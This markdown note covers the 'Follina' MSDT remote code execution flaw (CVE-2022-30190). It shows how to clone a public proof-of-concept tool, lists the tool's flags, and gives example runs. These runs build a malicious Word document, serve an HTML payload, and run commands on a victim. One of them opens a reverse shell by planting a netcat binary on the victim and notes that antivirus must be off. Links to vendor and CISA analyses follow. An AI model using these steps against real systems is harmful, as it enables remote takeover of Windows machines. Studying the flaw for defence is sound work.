


## CVE-2022-30190 - Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'



## Installation

```plain
git clone https://github.com/JohnHammond/msdt-follina
```

## Usage

```plain
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

## Flags

```plain
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

## Examples

Pop `calc.exe`:

```plain
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```plain
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```plain
python3 follina.py -r 9001
```



## URL List

- [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
- [YouTube.com - let’s play with a ZERO-DAY vulnerability 'follina'](https://www.youtube.com/watch?v=3ytqP1QvhUc)
- [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
- [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
- [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT 'Follina' Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
- [Huntress.com - Rapid Response: Microsoft Office RCE - 'Follina' MSDT Attack](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)
